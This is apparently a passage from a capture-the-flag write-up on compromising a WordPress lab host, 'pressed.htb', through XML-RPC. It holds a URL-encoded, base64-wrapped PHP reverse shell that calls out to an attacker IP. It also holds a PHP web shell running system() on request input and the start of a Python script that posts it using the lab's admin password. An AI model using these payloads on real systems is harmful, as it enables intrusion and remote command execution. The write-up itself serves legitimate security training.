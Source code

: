 ```bash
  mime_type: 
  parent_id: 0
  password: 
  ping_status: open
  post_format: standard
  post_status: publish
  post_type: post
  slug: php-injection-for-reverse-shell
  sticky: False
  struct: {'post_id': '49', 'post_author': '1', 'post_date_gmt': <DateTime '20241201T10:34:45' at 0xffff9b7aff50>, 'post_modified_gmt': <DateTime '20241201T10:34:45' at 0xffff9b7aff10>, 'post_name': 'php-injection-for-reverse-shell', 'post_status': 'publish', 'post_title': 'PHP Injection for Reverse shell', 'post_content': '<!-- wp:php-everywhere-block/php {"code":"JTNDP3BocCUyMCRzb2NrPWZzb2Nrb3BlbiglMjIxMC4xMC4xNC43JTIyLDkwMDApO3N5c3RlbSglMjIvYmluL3NoJTIwLWklMjAlM0MmMyUyMCUzRSYzJTIwMiUzRSYzJTIyKTslMjA/JTNF","version":"3.0.0"} /-->', 'post_excerpt': '', 'link': '/index.php/2024/12/01/php-injection-for-reverse-shell/', 'comment_status': 'closed', 'ping_status': 'open', 'terms': {'category': [1]}, 'custom_fields': [], 'post_password': '', 'post_format': 'standard', 'post_thumbnail': [], 'sticky': False, 'post_type': 'post', 'post_parent': '0', 'menu_order': 0, 'guid': '/?p=49', 'post_mime_type': ''}
  terms: [<WordPressTerm: b'Uncategorized'>]
  thumbnail: []
  title: PHP Injection for Reverse shell
  user: 1
========================================
```

The uploaded url is : `/index.php/2024/12/01/php-injection-for-reverse-shell/`
The full URL is : `http://pressed.htb/index.php/2024/12/01/php-injection-for-reverse-shell/`

![](attachments/pressed_10.png)

However, the page is not successfully loaded. I tried with different payloads, but none of them worked. I think there's a filter or protector to run this.

Instead, let's try more naive code as follows;

```php
<?php 
	echo(file_get_contents('/var/www/html/output.log'));
	system($_REQUEST['cmd']);
?>
```

Python code to post:

```python
┌──(kali㉿kali)-[~/htb/wordpress-xmlrpc]
└─$ cat post_webshell_cmd.py                         
from wordpress_xmlrpc import Client
from wordpress_xmlrpc.methods.posts import NewPost
from wordpress_xmlrpc import WordPressPost

url = "http://pressed.htb/xmlrpc.php"
username = "admin"
password = "uhc-jan-finals-2022"

client = Client(url, username, password)

post = WordPressPost()
post.title = "Webshell Command"
```
